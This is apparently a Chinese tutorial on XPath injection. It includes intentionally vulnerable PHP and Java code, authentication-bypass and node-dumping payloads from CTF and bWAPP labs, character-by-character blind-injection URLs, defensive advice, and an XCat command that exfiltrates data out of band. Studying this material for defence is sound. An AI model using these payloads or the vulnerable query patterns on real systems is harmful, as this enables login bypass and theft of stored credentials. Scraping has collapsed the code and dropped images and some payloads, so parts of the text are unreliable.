Xpath注入总结
XPath 即为 XML 路径语言，是 W3C XSLT 标准的主要元素，它是一种用来确定 XML（标准通用标记语言的子集）文档中某部分位置的语言。它是一种用来在内存中导航整个XML树的语言,它的设计初衷是作为一种面向XSLT和XPointer的语言,后来独立成了一种W3C标准。
**一句话总结：**XPath的作用就是用于在XML或HTML中查找信息，就像SQL语句的作用是在数据库中查询信息一样。
0x02 Xpath的简单演示
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 Xpath语法的简单展示:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 //代码示例:<?xml version="1.0" encoding="UTF-8" ?> <students > <student number ="1" > <name id ="zs" > <xing > 张</xing > <ming > 三</ming > </name > <age > 18</age > <sex > male</sex > </student > <student number ="2" > <name id = "ls" > 李四</name > <age > 24</age > <sex > female</sex > </student > </students > <students > <xing > 或者<name > 这些都可以叫元素节点
上边是一个简单的XML文档，那么接下来用Xpath来查语句（这里用python语言举例，但这里不知为何，我的python运行不了，可能版本不匹配了）
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 from lxml import etree''' <students> <student number="1"> <name id="zs"> <xing>张</xing> <ming>三</ming> </name> <age>18</age> <sex>male</sex> </student> <student number="2"> <name id = "ls">李四</name> <age>24</age> <sex>female</sex> </student> </students> ''' '//students' )[0 ][0 ][0 ][0 ].textprint (out)print ('-------------------------------------' )'//name' )[1 ].textprint (out)'//name' )[1 ].xpath('@id' )print (out)
以下 是大佬的成功展示案例(通过这里我们可以体会到类似于sql查询的感觉)
0x03 Xpath基础语法
(1)查询基本语句
1 //users/user[loginID/text()=’abc’ and password/text()=’test123’] 。
这是一个XPath查询语句，获取loginID为abc的所有user数据，用户需要提交正确的loginID和password才能返回结果。如果黑客在 loginID 字段中输入：’ or 1=1 并在 password 中输入：’ or 1=1 就能绕过校验，成功获取所有user数据。
1 //users/user[LoginID/text()=''or 1=1 and password/text()=''or 1=1]
(2)节点类型
在XPath中,XML文档被作为节点树对待,XPath中有七种结点类型：元素、属性、文本、命名空间、处理指令、注释以及文档节点（或称为根节点）。 文档的根节点即是文档结点；对应属性有属性结点，元素有元素结点。
element (元素)
attribute (属性)
text (文本)
namespace (命名空间)
processing-instruction (处理指令)
comment (注释)
root (根节点)
例如下面的XML文档
1 2 3 4 5 6 7 8 9 <?xml version="1.0" encoding="ISO-8859-1" ?> <bookstore > <book > <title lang ="en" > Harry Potter</title > <author > J K. Rowling</author > <year > 2005</year > <price > 29.99</price > </book >
1 2 3 <bookstore> 根节点
下面是一个匹配节点的实例
1 2 3 4 5 6 7 8 9 10 11 <?xml version="1.0" encoding="ISO-8859-1" ?> <bookstore > <book > <title lang ="eng" > Harry Potter</title > <price > 29.99</price > </book > <book > <title lang ="eng" > Learning XML</title > <price > 39.95</price > </book > </bookstore >
路径表达式结果

(4)限定语
限定语是对路径表达式的附加条件,用来查找某个特定的节点或者包含某个指定的值的节点.限定语被嵌在方括号中，路径表达式结果：

(5)通配符
XPath 通配符可用来选取未知的 XML 元素.

实例：

更多细节参考:Xpa`th注入
0x04XPath注入的定义 XPath注入攻击，是指利用XPath 解析器的松散输入和容错特性，能够在 URL、表单或其它信息上附带恶意的XPath 查询代码，以获得权限信息的访问权并更改这些信息。XPath注入攻击是针对Web服务应用新的攻击方法，它允许攻击者在事先不知道XPath查询相关知识的情况下，通过XPath查询得到一个XML文档的完整内容。Xpath注入攻击本质上和SQL注入 攻击是类似的，都是输入一些恶意的查询等代码字符串，从而对网站进行攻击。
XPath注入发生在当站点使用用户输入的信息来构造请求以获取XML数据。攻击者对站点发送经过特殊构造的信息来探究站点使用的XML是如何构造的，从而进一步获取正常途径下无法获取的数据。当XML数据被用作账户验证时，攻击者还可以提升他的权限。
0x05 xpath注入原理
xpath注入的原理其实和sql注入很像， XPath注入攻击主要是通过构建特殊的输入，这些输入往往是XPath语法中的一些组合，这些输入将作为参数传入Web 应用程序，通过执行XPath查询而执行入侵者想要的操作，**但是，注入的对象不是数据库users表了，而是一个存储数据的XML文件。**攻击者可以获取 XML 数据的组织结构，或者访问在正常情况下不允许访问的数据，如果 XML 数据被用于用户认证，那么攻击者就可以提升他的权限。
因为xpath不存在访问控制，所以我们不会遇到许多在SQL注入中经常遇到的访问限制。XML 中没有访问控制或者用户认证，如果用户有权限使用 XPath 查询，并且之间没有防御系统或者查询语句没有被防御系统过滤，那么用户就能够访问整个 XML 文档。 注入出现的位置也就是cookie，headers，request parameters/input等。下面以登录验证中的模块为例，说明 XPath注入攻击的实现原理。
在Web 应用程序的登录验证程序中，一般有用户名（username）和密码（password） 两个参数，程序会通过用户所提交输入的用户名和密码来执行授权操作。若验证数据存放在XML文件中，其原理是通过查找user表中的用户名 （username）和密码（password）的结果来进行授权访问。
例存在user.xml文件如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 <users > <user > <firstname > Ben</firstname > <lastname > Elmore</lastname > <loginID > abc</loginID > <password > test123</password > </user > <user > <firstname > Shlomy</firstname > <lastname > Gantz</lastname > <loginID > xyz</loginID > <password > 123test</password > </user >
则在XPath中其典型的查询语句如下：
1 //users/user[loginID/text()='xyz'and password/text()='123test']
但是，可以采用如下的方法实施注入攻击，绕过身份验证。如果用 户传入一个 login 和 password，例如 loginID = ‘xyz’ 和 password = ‘123test’，则该查询语句将返回 true。但如果用户传入类似 ’ or 1=1 or ‘’=’ 的值，那么该查询语句也会得到 true 返回值，因为 XPath 查询语句最终会变成如下代码：
1 //users/user[loginID/text()=''or 1=1 or ''='' and password/text()='' or 1=1 or ''='']
这个字符串会在逻辑上使查询一直返回 true 并将一直允许攻击者访问系统。攻击者可以利用 XPath 在应用程序中动态地操作 XML 文档。攻击完成登录可以再通过XPath注入技术获取最高权限帐号和其它重要文档信息。延展开来，xpath的注入还有很多花样，像是通过updataxml()函数实现xpth报错注入，还有xpth的盲注。
0x06 下面动手实操(以下都是跟着佬做的)
Xpath实例1
主流脚本语言都支持对XPath的处理,下面我以PHP来学习XPath注入的原理：
blog.xml
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 <?xml version="1.0" encoding="UTF-8" ?> <root > <users > <user > <id > 1</id > <username > admin</username > <password type ="md5" > 0192023a7bbd73250516f069df18b500</password > </user > <user > <id > 2</id > <username > jack</username > <password type ="md5" > 1d6c1e168e362bc0092f247399003a88</password > </user > <user > <id > 3</id > <username > tony</username > <password type ="md5" > cc20f43c8c24dbc0b2539489b113277a</password > </user > </users > <secret > <flag > flag{My_f1rst_xp4th_iNjecti0n}</flag > </secret > </root >
index.php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 <?php $xml =simplexml_load_file ('blog.xml' );$name =$_GET ['name' ];$pwd =md5 ($_GET ['pwd' ]);$query = "/root/users/user[username/text()='" .$name ."' and password/text()='" .$pwd ."']" ;echo $query ;$result = $xml ->xpath ($query );if ($result ) {echo '<h2>Welcome</h2>' ;foreach ($result as $key => $value ) {echo '<br />ID:' .$value ->id;echo '<br />Username:' .$value ->username;?>
代码很简单,实现了一个简单的登陆验证功能.其实和SQL注入相似,没有对用户输入的数据做过滤,导致攻击者可以直接注入”XPath表达式”，只要知道用户名就能绕过密码验证.
1 2 payload:

如果用户名没法得知,可以用两个”or”来绕过验证逻辑
1 2 payload:

Xpath实例二 这里用一道赛题来举例：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 <?php $re = array ('and' ,'or' ,'count' ,'select' ,'from' ,'union' ,'group' ,'by' ,'limit' ,'insert' ,'where' ,'order' ,'alter' ,'delete' ,'having' ,'max' ,'min' ,'avg' ,'sum' ,'sqrt' ,'rand' ,'concat' ,'sleep' );setcookie ('injection' ,'c3FsaSBpcyBub3QgdGhlIG9ubHkgd2F5IGZvciBpbmplY3Rpb24=' ,time ()+100000 );if (file_exists ('t3stt3st.xml' )) {$xml = simplexml_load_file ('t3stt3st.xml' );$user =$_GET ['user' ];$user =str_replace ($re , ' ' , $user );$query ="user/username[@name='" .$user ."']" ;$ans = $xml ->xpath ($query );foreach ($ans as $x => $x_value )echo $x .": " . $x_value ;echo "<br />" ;
通过访问/download.php?file=backup.zip下载网页源码，首先看到他过滤了sql注入的一些关键字，setcookie中有一段base64加密的密文，解码后得到的是：“sqli is not the only way for injection”，根据提示sql不是唯一的注入方式，再结合下面对xml的一系列操作，可以确定这道题是用xpath注入，于是根据$query=“user/username[@name='”.$user.“']”;这一句可构造如下payload:
1 $query="user/username[@name='']|//*|ss['']";
这个payload中的 |ss 不太懂…


这句payload的意思是闭合了“.$user.”前后的单引号同时执行三个操作，其中第二个操作//*即是关键点，列出文档中的所有元素，最后拿到flag
浅浅分析一下: 这里用|的原因是为了让该查询语句返回true,因为,user前后均为假,而 //* 会返回文档所有元素,因此为真
xpath 实列原理三
这边有个存放分数的xml文件：
score.xml:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 <?xml version="1.0" encoding="utf-8" ?> <root > <class num ='1' > <peo name ='tom' > <subject > <foo > english</foo > <score > 60</score > </subject > <subject > <foo > chinese</foo > <score > 70</score > </subject > <password > qwer123</password > </peo > <peo name ='helen' > <subject > <foo > english</foo > <score > 24</score > </subject > <subject > <foo > chinese</foo > <score > 34</score > </subject > <password > woaichishi</password > </peo > <peo name ='vk' > <subject > <foo > english</foo > <score > 100</score > </subject > <subject > <foo > chinese</foo > <score > 100</score > </subject > <password > vk123</password > </peo > </class > </root >
查询分数的php是：
score.php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 <?php if (file_exists ('score.xml' )){$xml = simplexml_load_file ('score.xml' ); if (isset ($_GET ['user' ])){$user = $_GET ['user' ];$en_scr = "//peo[@name='{$user} ']/subject[contains(foo, 'english')]/score" ;$ch_scr = "//peo[@name='{$user} ']/subject[contains(foo, 'chinese')]/score" ;$en_qu = $xml -> xpath ($en_scr );$ch_qu = $xml -> xpath ($ch_scr );foreach ($en_qu as $key => $value ) {echo $user .':<br>english is ' .$value ;foreach ($ch_qu as $key => $value ) {echo '<br>' .'chinese is ' .$value ;else {echo 'only have three user: vk, tom, helen.' ;?>
这里，php用simplexml_load_file()这个函数来访问那个存分数的xml文件,然后用xpath语法去查询数据。会php语言的慢慢看（重要！可加深理解），不会的跳过，先看效果：

他说只有三个用户，那我们来查查helen的分数吧

好了，反过来看看代码，它是怎么实现对xml文件的查询的？
1 2 $en_scr = "//peo[@name='{$user}']/subject[contains(foo, 'english')]/score";

图中框这个就相当于Sql中的语句，这就是xpath路径选取xml节点的语句。
直接解释查询语句/peo 匹配到所有peo节点

1 2 3 4 5 6 这节点不止一个，到底要哪个呢？

这样就能实现从xml文件中查询相应数据了!
0x07 XPath盲注的方法
盲注主要利用XPath的一些字符串操作函数和运算符.

以前文的环境为例,如果我们想遍历出整个XML文档,一般步骤如下:
1.判断根下节点数:(体现出来的就是回显正常,以下均是)
1 2 3 127.0.0.1/xpath/index.php?name=1' or count(/*)=1 or '1'='1&pwd=fake
2.猜解第一级节点:
1 2 3 4 127.0.0.1/xpath/index.php?name=1' or substring(name(/*[position()=1]),1,1)='r' or '1'='1&pwd=fake
3.判断root的下一级节点数:
1 2 3 127.0.0.1/xpath/index.php?name=1' or count(/root/*)=2 or '1'='1&pwd=fake
4.猜解root的下一级节点:
1 2 3 4 127.0.0.1/xpath/index.php?name=1' or substring(name(/root/*[position()=1]),1,1)='u' or '1'='1&pwd=fake
重复上述步骤直到猜解出所有节点，最后来猜解节点中的数据或属性值。
5、猜解id为1的user节点下的username值,
1 2 3 4 5 127.0.0.1/xpath/index.php?name=1' or substring(/root/users/user[id=1]/username,1,1)='a' or '1'='1&pwd=fake
0x08 XPath攻击的实列
一般说来，大多数 Web 应用程序使用关系数据库存储和检索信息。例如，如果您的 Web 站点需要身份验证，那么您可能拥有一个 users 表，其中包含惟一 ID、登录名、密码，也许还有一些其他信息，比如角色。从 users 表中检索用户的 SQL 查询可能类似于清单 1。清单 1从 users 表中检索用户的 SQL 查询
1 Select * from users where loginID=’foo’ and password=’bar’
在这个查询中，用户必须提供 loginID 和 password 作为输入。
如果攻击者在 loginID 字段中输入：’ or 1=1 ,并在 password 中输入：’ or 1=1
则形成的查询将类似清单 2。
清单 2. 从攻击者输入形成的查询
1 Select * from users where loginID = ’’ or 1=1 and password=’ ’ or 1=1
这个条件会一直匹配，因此攻击者可以进入系统。
XPath 注入的原理大体类似。但是，假设您拥有的不是一个 users 表，而是一个 XML 文件，其中包含了如清单 3 所示的用户信息。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 <?xml version="1.0" encoding="UTF-8" ?> <users > <user > <firstname > Ben</firstname > <lastname > Elmore</lastname > <loginID > abc</loginID > <password > test123</password > </user > <user > <firstname > Shlomy</firstname > <lastname > Gantz</lastname > <loginID > xyz</loginID > <password > 123test</password > </user > <user > <firstname > Jeghis</firstname > <lastname > Katz</lastname > <loginID > mrj</loginID > <password > jk2468</password > </user > <user > <firstname > Darien</firstname > <lastname > Heap</lastname > <loginID > drano</loginID > <password > 2mne8s</password > </user > </users >
在 XPath 中，类似于 SQL 查询的语句如清单 4 所示。
清单 4. 匹配 SQL 查询的 XPath 语句
1 //users/user[loginID/text()=’abc’ and password/text()=’test123’]
要执行类似的攻击以绕过身份验证，如果攻击者在 loginID 字段中输入：’ or 1=1 并在 password 中输入：’ or 1=1
您可能会使用类似清单 5 的方法。
清单 5. 绕过身份验证
1 //users/user[LoginID/text()=’’ or 1=1 and password/text()=’’ or 1=1]
您可能在 Java 应用程序中有一个诸如 doLogin 之类的方法，使用清单 3 中的 XML 文档再次执行身份验证。可能类似于清单 6。
清单 6. XPathInjection.java
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 import java.io.IOException;import org.w3c.dom.*;import org.xml.sax.SAXException;import javax.xml.parsers.*;import javax.xml.xpath.*;public class XpathInjectionExample {public boolean doLogin (String loginID, String password) throws ParserConfigurationException, SAXException,IOException, DocumentBuilderFactory domFactory = DocumentBuilderFactory.newInstance();true );DocumentBuilder builder = domFactory.newDocumentBuilder();Document doc = builder.parse("users.xml" );XPathFactory factory = XPathFactory.newInstance();XPath xpath = factory.newXPath();XPathExpression expr = xpath.compile("//users/user[loginID/text()=’" +loginID+"’ and password/text()=’" +password+"’ ]/firstname/text()" );Object result = expr.evaluate(doc, XPathConstants.NODESET);NodeList nodes = (NodeList) result;for (int i = 0 ; i < nodes.getLength(); i++) {if (nodes.getLength() >= 1 ) { return true ;else {return false ;
0x09 xpath之bwapp实例一
我们来看看bwapp上的第一个xpath注入

这个登录界面访问权限是通过xpath去读取xml文件来实现的。换句话说，你输入账号密码，他就把xml文件里的合法账号密码拿出来和你填写的进行比对，如果一致就通过。如果他对输入没有进行过滤的话用sql注入的万能钥匙是能通过的！

通过这个我们了解到，xpath和sql注入还是有点像的，起码or能用。
进阶探索
在cookie中找到提示信息:意思是sqli不是唯一的注入->因此我们想到Xpath注入


用 user1’ or ‘’=’这样爆出所有user查询结果，并不能找到flag，看来只能拿出xpath特有的注入手段了（这也是和sql注入最大的区分）直接看exp：xmltest.php?user=user1’] | //* | //*[’

好了，这一部分只需要了解xpath注入和sql注入不是一个东西就行。
0x10 XPath之bwapp实例二
再来看看bwapp的第二个xpath注入

这个web应用是，你给出类型，他查找这个类型的电影，给你呈现出来。这里我选了action动作片，他告诉我图中结果。看url就知道，这里是通过get来传参的。简单测试下：

语句：genre=action’ and ‘’=‘&action=search没有回显，（正常应该有回显）看样子是接收参数的位置问题，不是任何位置都可以接受and or（比如在函数里）那我们试试：genre=action’ | //* | ’ &action=search

继续：genre=action’] | //* | //*[’ &action=search
还是不行，不要灰心，拼字游戏就是如此。

把中括号换成圆括号也不行。就在我郁闷的时候，一拍脑袋，函数一般是放在中括号里，用来增加查询条件的，这有点像where
这里对这个payload的理解: 第一个|前面啥也查不到,因此转到中间的语句,返回//* (文档中所有元素),接着又查询第三个,虽然search查不到,但前面有 //* 即://*[(‘’)]/movie,返回文档中所有movie元素

0x11 xpath挖掘利用 如果一个网站某应用程序将数据保存在XML中，并且对用户的输入没有做限制，攻击者提交了没有经过处理的输入，就插入到 XPath 查询中，即产生Xpath注入，那么就攻击者就可能通过控制查询，获取数据，或者删除数据之类的操作。
Xpath是xml路径语言，用于配置文件的查找。数据库就是xml文件。因此只要是利用XPath语法的Web 应用程序如果未对输入的XPath查询做严格的处理都会存在XPath注入漏洞。比如一些登录地址页面，搜索页面需要与xml交互的位置。
判断依据：主要根据错误信息页面判断以及查看源码进行分析。

Example：Bwapp
首先这是这个Get方式请求验证，因此对get的参数进行注入测试，发现报错信息，说明是可能通过xml存储于前端交互。
然后构造xpath查询语句//users/user[loginID/text()=‘’ and password/text()=‘’],因此’or 1=1 or ‘’=‘或者’ or ‘1’='1等使其为真可以。
Example:hctf
index.html
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 <?php $re = array ('and' ,'or' ,'count' ,'select' ,'from' ,'union' ,'group' ,'by' ,'limit' ,'insert' ,'where' ,'order' ,'alter' ,'delete' ,'having' ,'max' ,'min' ,'avg' ,'sum' ,'sqrt' ,'rand' ,'concat' ,'sleep' );setcookie ('injection' ,'c3FsaSBpcyBub3QgdGhlIG9ubHkgd2F5IGZvciBpbmplY3Rpb24=' ,time ()+100000 );if (file_exists ('t3stt3st.xml' )) {$xml = simplexml_load_file ('t3stt3st.xml' );$user =$_GET ['user' ];$user =str_replace ($re , ' ' , $user );$query ="user/username[@name='" .$user ."']" ;$ans = $xml ->xpath ($query );foreach ($ans as $x => $x_value )echo $x .": " . $x_value ;echo "<br />" ;?>
t3stt3et.xml
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 <?xml version="1.0" encoding="utf-8" ?> <root1 > <user > <username name ='user1' > user1</username > <key > KEY:1</key > <username name ='user2' > user2</username > <key > KEY:2</key > <username name ='user3' > user3</username > <key > KEY:3</key > <username name ='user4' > user4</username > <key > KEY:4</key > <username name ='user5' > user5</username > <key > KEY:5</key > <username name ='user6' > user6</username > <key > KEY:6</key > <username name ='user7' > user7</username > <key > KEY:7</key > <username name ='user8' > user8</username > <key > KEY:8</key > <username name ='user9' > user9</username > <key > KEY:9</key > </user > <hctfadmin > <username name ='hctf1' > hctf</username > <key > flag:hctf{Dd0g_fac3_t0_k3yboard233}</key > </hctfadmin > </root1 >
通过查看源码$query，然后构造payload: ']|//*|[' 回显出flag
0x12浅谈XPath注入检测思路和方法 XML不是保存企业数据的，但是很多情况下都用来保存应用程序配置数据，小型应用程序也保存简单信息，例如角色权限等等,下面给出一个XML的列子
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 <addressBooke > <address > <name > Tom</name > <password > abcdefg</password > <age > 20</age > <phone > 13000000000</phone > </address > <address > <name > Bob</name > <password > abcdefg</password > <age > 30</age > <phone > 13000000001</phone > </address > <address > <name > Jack</name > <password > abcdefg</password > <age > 40</age > <phone > 13000000002</phone > </address >
原理类似SQL注入，构建新的查询逻辑来进行攻击,但是要注意，关键词像函数这种的区分大小写1.构建新的逻辑实现注入
1 2 3 4 or 1=1
一个字节一个字节的提取出信息:
1 'or //address[name/text()='Tom' and substring(password/text(),1,1)）] ='a' and 'a'='a
返回正常则判断正确，等同于下面的查询：
1 //address[name/text()='' or //address[name/text()='Tom' and substring(password/text(),1,1)）] ='a' ]and 'a'='a]/phone/text()
通过查询名字的输入 却查询到了了tom的密码首位，尝试攻击每一个字符位置并测试每一个可能的值，获得密码2.当然了大部分情况下，我们不能够知道任何节点的名称或者说只能知道一部分，可使用盲注XPath
首先提取父节点的名字：
1 2 3 'or substring(name(parent::*[position()=1]),1,1)='a 正常
父节点名字为address 是元素节点提取子节点名字
1 2 3 'or substring(//address[1]/*[2],1,1)='p' or 'a'='a 正常
二号子节点名称为password提取子节点的值：
基于原理：//address[1]/*[2]/text() -> tom的password 但是这个不会输出
1 2 3 'or substring(//address[1]/*[2]/text(),1,1)='a' or'a'='a 正常
第二个子节点值为abcdefg
测试步骤：
1 2 ' or count(parent::*[position()=1])=0 or 'a'='b 状态1
数字型参数：
1 2 1 or count(parent::*[position()=1])=0
确定了存在注入点，用上面的方法注入就可以了！
0x13 经典xpath源码
index.php：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 <?php $re = array ('and' ,'or' ,'count' ,'select' ,'from' ,'union' ,'group' ,'by' ,'limit' ,'insert' ,'where' ,'order' ,'alter' ,'delete' ,'having' ,'max' ,'min' ,'avg' ,'sum' ,'sqrt' ,'rand' ,'concat' ,'sleep' );setcookie ('injection' ,'c3FsaSBpcyBub3QgdGhlIG9ubHkgd2F5IGZvciBpbmplY3Rpb24=' ,time ()+100000 );if (file_exists ('t3stt3st.xml' )) {$xml = simplexml_load_file ('t3stt3st.xml' );$user =$_GET ['user' ];$user =str_replace ($re , ' ' , $user );$query ="user/username[@name='" .$user ."']" ;$ans = $xml ->xpath ($query );foreach ($ans as $x => $x_value )echo $x .": " . $x_value ;echo "<br />" ;?>
//t3stt3st.xml
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 <?xml version="1.0" encoding="utf-8" ?> <root1 > <user > <username name ='user1' > user1</username > <key > KEY:1</key > <username name ='user2' > user2</username > <key > KEY:2</key > <username name ='user3' > user3</username > <key > KEY:3</key > <username name ='user4' > user4</username > <key > KEY:4</key > <username name ='user5' > user5</username > <key > KEY:5</key > <username name ='user6' > user6</username > <key > KEY:6</key > <username name ='user7' > user7</username > <key > KEY:7</key > <username name ='user8' > user8</username > <key > KEY:8</key > <username name ='user9' > user9</username > <key > KEY:9</key > </user > <hctfadmin > <username name ='hctf1' > hctf</username > <key > flag:hctf{Dd0g_fac3_t0_k3yboard233}</key > </hctfadmin > </root1 >
从index.php源码可知XPath查询语句为$query=“user/username[@name='”.$user.“']”， 且$user经过关键字替换。但是黑名单$re中都为SQL关键字，所以并不影响对XPath进行注入。我们可以构造payload如 ']|//*|zzz['来进行注入，获取文档中的所有元素节点。
0x14 xpath危害
在URL及表单中提交恶意XPath代码，可获取到权限限制数据的访问权，并可修改这些数据；
可通过此类漏洞查询获取到系统内部完整的XML文档内容。
逻辑以及认证被绕过，它不像数据库那样有各种权限，xml没有各种权限的概念,正因为没有权限概念，因此利用xpath构造查询的时候整个数据库都会被用户读取。
xpath的具体危害：
下面我将从这两个方面来分别演示这两种危害。
（1）绕过验证
首先这里有一个登录身份验证的程序，所有的身份数据都存储在一个名为 UsersDataBase.xml 的文件里。 通过 XPath 查询 xml 文件，将用户提交的用户名和密码与 xml 文件中的用户名密码做比对来验证身份。
UsersDataBase.xml 的结构如下：

一般情况下，输入错误的用户名或密码会导致身份认证失败：
然而在后台的身份认证程序中有这样一句 XPath 查询语句
$xpath = “//users/user[username/text()='”.$_POST[“username”].“’ and password/text()='”.$_POST[“password”].“']”;
可以看到在 XPath 查询语句中并未对用户的输入做任何处理，这就直接导致一个注入点
我们可以构造如下的 payload:
Username: ’ or ‘1’ = '1
Password: ’ or ‘1’ = '1
那么整个 XPath 查询语句就变成了这个样子
$xpath = “//users/user[username/text()=‘’ or ‘1’ = ‘1’ and password/text()=‘’ or ‘1’ = ‘1’]”;
整个查询语句恒成立，就直接导致了身份认证被绕过。

2.信息泄露
大多数情况下，当服务器返回数据时，都会对这些数据做一些处理。比如如果服务器返回一些错误信息，那么最终会被过滤掉，不会出现在用户的页面里。将尽可能少的信息暴露给用户，将可以提高安全性。但是即使错误信息被过滤掉，我们依然可以从服务器给出的不同返回结果推测出服务器做出了何种响应。作为攻击者可以提交一段包含 XPath 函数的 Payload，通过服务器给出的不同响应，判断得到我们想知道的信息。这就是 XPath 盲注。
下面这是一个通过用户名的ID来得到用户名的程序。当然具体场景也可能是通过名字来查询身份证号码等等，这里只做演示。
正常情况下，输入用户的 ID，就会得到相应的用户名。当查询语句恒成立时（如构造 Payload 为’ or ‘1’ = '1 时），就会返回第一个节点的用户名 “Alice”（这是程序本身的 bug ）。而当查询语句错误或该 ID 在 xml 数据库中不存在时，就什么都不返回。


利用这点，我们就可以构造如下 Payload，比如：来查询整个 xml 文档的根节点的第一个字母是否为“u”
’ or substring(name(parent::*[position()=1]),1,1)='u
返回结果为 “Alice”，就说明整个 xml 文档的根节点的第一个字母是 “u”，反之如果什么都没有返回，则说明根节点的第一个字母不是 “u”。以此类推，我们就可以历遍整个 xml 文档了。这也是 xml和其他数据库相比最大的威胁所在了，因为它没有访问控制和身份验证。
0x15 xpath防御
数据提交到服务器上端，在服务端正式处理这批数据之前，对提交数据的合法性进行验证。
检查提交的数据是否包含特殊字符，对特殊字符进行编码转换或替换、删除敏感字符或字符串，如过滤[] ‘ “ and or 等全部过滤，像单双引号这类，可以对这类特殊字符进行编码转换或替换
对于系统出现的错误信息，以IE错误编码信息替换，屏蔽系统本身的出错信息或者用统一的报错页面代替（如updataxml()这类）
参数化XPath查询，将需要构建的XPath查询表达式，以变量的形式表示，变量不是可以执行的脚本。如下代码可以通过创建保存查询的外部文件使查询参数化：
declare variable $loginID as xs：string external；
declare variable $password as xs：string external；
//users/user[@loginID=$loginID and@password= $password]
通过MD5、SSL等加密算法，对于数据敏感信息和在数据传输过程中加密，即使某些非法用户通过非法手法获取数据包，看到的也是加密后的信息。
验证是否包含特定的 XPath 函数，可以过滤掉一些 XPath 函数，以提高安全性，当然了不能以牺牲用户体验或影响用户正常使用为前提。
总结下就是：限制提交非法字符，对输入内容严格检查过滤，参数化XPath查询的变量
0x16 xpath工具
XCat是一个用来利用XPath盲注的命令行程序。它可以用来检索正在被易受攻击的XPath查询处理的整个XML文档，读取主机文件系统上的任意文件，并利用无限制的HTTP请求使服务器直接向xcat发送数据(OOB带外通信)
Xcat是python的命令行程序利用Xpath的注入漏洞在Web应用中检索XML文档,下载地址：https://github.com/orf/xcat
使用说明：http://xcat.readthedocs.io/en/latest/#about-xcat
python3.4.1环境:
pip install xcat
常用命令读取xml文件：(这命令老了,我现在也不知道现版本咋用,有时间研究吧…)
xcat.py --method=GET --public-ip=“192.168.91.139” http://192 .168.91.139/xml/example2.php name=hacker name “Hello hacker” run retrieve
Xpath注入